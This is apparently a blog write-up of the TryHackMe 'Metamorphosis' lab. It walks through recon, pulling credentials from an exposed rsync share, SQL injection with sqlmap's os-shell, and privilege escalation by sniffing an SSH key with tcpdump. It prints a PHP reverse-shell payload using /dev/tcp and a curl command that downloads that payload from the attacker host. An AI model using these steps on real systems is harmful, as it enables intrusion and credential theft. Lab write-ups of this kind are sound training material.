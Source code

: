 ```yaml
---
title: "Tryhackme Metamorphosis"
date: 2021-08-16T15:55:27+05:30
draft: true
toc: true
image: "images/github-pagesLightBlue.jpeg"
tags: ["blog", "GitHub Pages" ,"Hugo"]
categories: ["blog"]
---
```


## Overview
<img style="border:2px solid black" src="/images/metamorphosis.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>

## Recon

### Nmap 

```bash
root@kali:~/tryhackme/metamorphosis#nmap -sC -sV  10.10.97.133
Starting Nmap 7.91 ( https://nmap.org ) at 2021-08-12 11:32 IST
Nmap scan report for 10.10.97.133 (10.10.97.133)
Host is up (0.16s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 f7:0f:0a:18:50:78:07:10:f2:32:d1:60:30:40:d4:be (RSA)
|   256 5c:00:37:df:b2:ba:4c:f2:3c:46:6e:a3:e9:44:90:37 (ECDSA)
|_  256 fe:bf:53:f1:d0:5a:7c:30:db:ac:c8:3c:79:64:47:c8 (ED25519)
80/tcp  open  http        Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
139/tcp open  netbios-ssn Samba smbd 4.7.6-Ubuntu (workgroup: WORKGROUP)
873/tcp open  rsync       (protocol version 31)
Service Info: Host: INCOGNITO; OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
|_clock-skew: mean: 13s, deviation: 0s, median: 13s
|_nbstat: NetBIOS name: INCOGNITO, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)
| smb-os-discovery: 
|   OS: Windows 6.1 (Samba 4.7.6-Ubuntu)
|   Computer name: incognito
|   NetBIOS computer name: INCOGNITO\x00
|   Domain name: \x00
|   FQDN: incognito
|_  System time: 2021-08-12T06:03:04+00:00
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb2-security-mode: 
|   2.02: 
|_    Message signing enabled but not required
| smb2-time: 
|   date: 2021-08-12T06:03:04
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 20.22 seconds

```

### Gobuster

```bash

root@kali:~/tryhackme/metamorphosis/conf#gobuster dir -u 10.10.97.133 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x html,php,txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.97.133
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              php,txt,html
[+] Timeout:                 10s
===============================================================
2021/08/12 11:04:29 Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 10818]
/admin                (Status: 301) [Size: 312] [--> http://10.10.97.133/admin/]
/inde.html            (Status: 200) [Size: 10918]                               
Progress: 56672 / 882244 (6.42%)               

```

### Visting Webpage

<img style="border:2px solid black" src="/images/forbidden.png" align="left"><br><br><br><br><br><br><br>


Viewing `source code` 

<img style="border:2px solid black" src="/images/sourcecode.png" align="left"><br><br><br><br>


## Rsync Enumeration

We have port 873 running which is `Rsync` you can read more about this here [hacktricks.xyz/pentesting/873-pentesting-rsync](https://book.hacktricks.xyz/pentesting/873-pentesting-rsync)

```bash
rsync -rdt rsync://10.10.38.244:873

we get | Conf            All Confs |

```

Listing content of `Conf`

```bash

rsync -rdt rsync://10.10.38.244:873/Conf
drwxrwxrwx          4,096 2021/04/11 01:33:08 .
-rw-r--r--          4,620 2021/04/10 01:31:22 access.conf
-rw-r--r--          1,341 2021/04/10 01:26:12 bluezone.ini
-rw-r--r--          2,969 2021/04/10 01:32:24 debconf.conf
-rw-r--r--            332 2021/04/10 01:31:38 ldap.conf
-rw-r--r--         94,404 2021/04/10 01:51:57 lvm.conf
-rw-r--r--          9,005 2021/04/10 01:28:40 mysql.ini
-rw-r--r--         70,207 2021/04/10 01:26:56 php.ini
-rw-r--r--            320 2021/04/10 01:33:16 ports.conf
-rw-r--r--            589 2021/04/10 01:31:07 resolv.conf
-rw-r--r--             29 2021/04/10 01:32:56 screen-cleanup.conf
-rw-r--r--          9,542 2021/04/10 01:30:59 smb.conf
-rw-rw-r--             72 2021/04/11 01:33:06 webapp.ini

```
Downloading `Conf files` into local machine


```bash
rsync -av rsync://10.10.38.244:873/Conf ./conf

```

Reading all the files we got webapp.ini file 

```bash

cat webapp.ini 
[Web_App]
env = prod
user = tom
password = theCat

[Details]
Local = No
````

The env variable is set to `prod` ... change this to `dev` (for development) and upload back new `webapp.ini` file to `server`.

```bash

rsync -av webapp.ini rsync://10.10.101.93:873/Conf/webapp.ini  

```

Going to the admin page again  `http://10.10.101.93/admin/`


<img style="border:2px solid black" src="/images/2.png" align="left"><br><br><br><br><br><br><br><br><br><br><br>
 
Use `brupsuite` and save the request as `req.txt` file

## SQLmap

```bash
sqlmap -r req.txt --level 3 --risk 3 --batch --os-shell

```
<img style="border:2px solid black" src="/images/sqloutput.png" align="left"><br><br><br><br><br><br><br><br><br><br><br>


## Getting Reverse Shell

Using curl to upload the `Shell.php`

```bash
root@kali:~/tryhackme/metamorphosis#cat shell.php

<?php
exec("/bin/bash -c 'bash -i >& /dev/tcp/your IP/1234 0>&1'");
```
In `Os-shell`

```bash
curl http://your IP/shell.php -o shell.php
```

access the shell.php in browser using `http://10.10.101.93/shell.php/`

and ` nc -lnvp 1234 ` in other terminal 

Get the `Rev shell` and `Upgrade`.

<img style="border:2px solid black" src="/images/revshell.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>
  
Getting  `User.txt`

<img style="border:2px solid black" src="/images/user_txt.png" align="left"><br><br><br><br><br><br><br><br><br><br><br>
 
## Privilege Escalation

Running `linpeas` we get that user can run `Tcpdump`

Running `Pspy64` we get

<img style="border:2px solid black" src="/images/pspyoutput.png" align="left"><br><br><br><br><br><br><br><br><br>

It shows root run `req.sh` and 	`sudo -l` not give any information

Now finally run tcpdump in /var/www/html and capture the output using wget ...............

<img style="border:2px solid black" src="/images/tcpdump.png" align="left"><br><br><br><br><br><br><br><br><br>

In Attakcer Machine run `wget http://10.10.101.93/1.pcap`

Open 1.pcap file in `Wireshark`

follow tcp stream and get the SSH key

<img style="border:2px solid black" src="/images/sshkey1.png" align="left"><br><br><br><br><br><br><br><br><br><br>

log in with key and get `root.txt`

<img style="border:2px solid black" src="/images/root.png" align="left"><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br><br>


